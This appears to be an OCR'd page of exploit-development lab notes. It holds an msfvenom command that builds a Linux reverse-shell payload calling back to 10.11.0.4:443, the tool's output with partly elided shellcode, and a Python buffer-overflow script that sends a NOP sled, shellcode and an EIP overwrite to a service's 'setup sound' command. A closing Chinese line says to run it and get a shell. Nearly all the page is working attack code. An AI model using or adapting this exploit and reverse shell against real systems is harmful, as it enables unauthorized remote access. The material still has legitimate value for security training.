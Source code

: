 ### shell

```bash
kali@kali:~$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x0
0\x20" -f py -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 470 bytes
shellcode = ""
shellcode += "\xbe\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x04\x03\x47\x90\x41"
...
```

```python
#!/usr/bin/python
import socket
host = "10.11.0.128"
nop_sled = "\x90" * 8 # NOP sled
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f p
y
shellcode = ""
shellcode += "\xbe\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x04\x03\x47\x90\x41"
...

padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))
eip = "\x96\x45\x13\x08" # 0x08134596
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\
x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

关闭调试器，重新启动程序。运行脚本。得到shell

